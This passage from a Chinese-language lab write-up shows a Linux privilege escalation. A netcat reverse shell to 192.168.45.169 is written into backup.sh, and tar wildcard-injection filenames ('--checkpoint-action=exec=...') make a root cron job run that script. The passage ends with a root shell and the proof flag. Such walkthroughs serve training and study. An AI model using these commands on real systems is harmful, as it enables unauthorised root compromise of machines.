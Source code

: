 然后使用alice用户去提权，计划任务也能进行修改，这个计划任务每3分钟会运行一次，使用`tar`的提权方式来进行提权

```bash
$ echo '#!/bin/bash' > backup.sh

$ $ echo 'nc -e /bin/sh 192.168.45.169 443' >> backup.sh
$ cat backup.sh 
#!/bin/bash
nc -e /bin/sh 192.168.45.169 443
$ touch ./"--checkpoint=1"
$ touch ./"--checkpoint-action=exec=bash backup.sh"
$ ls
--checkpoint-action=exec=bash backup.sh
--checkpoint=1
backup.sh
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

```

最后得到root的shell

```bash
┌──(aaron㉿aaron)-[~/Desktop/script]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.169] from (UNKNOWN) [192.168.184.166] 35074
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/proof.txt
b46523b0963aae9409ce8bd60f4e7b68

```
